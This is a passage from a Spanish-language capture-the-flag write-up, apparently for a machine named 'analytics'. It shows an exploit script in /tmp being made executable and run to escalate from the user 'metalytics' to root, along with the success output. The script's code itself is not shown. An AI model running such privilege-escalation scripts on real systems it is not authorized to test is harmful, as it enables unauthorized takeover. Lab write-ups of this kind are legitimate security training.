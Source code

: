 Se le da permisos de ejecución

```bash
chmod +x /tmp/exploit.sh
```
{: .nolineno} 

Y al ejecutarlo, se gana acceso como ***root***.


```bash
metalytics@analytics:/tmp$ bash exploit.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp# 
```
{: .nolineno}






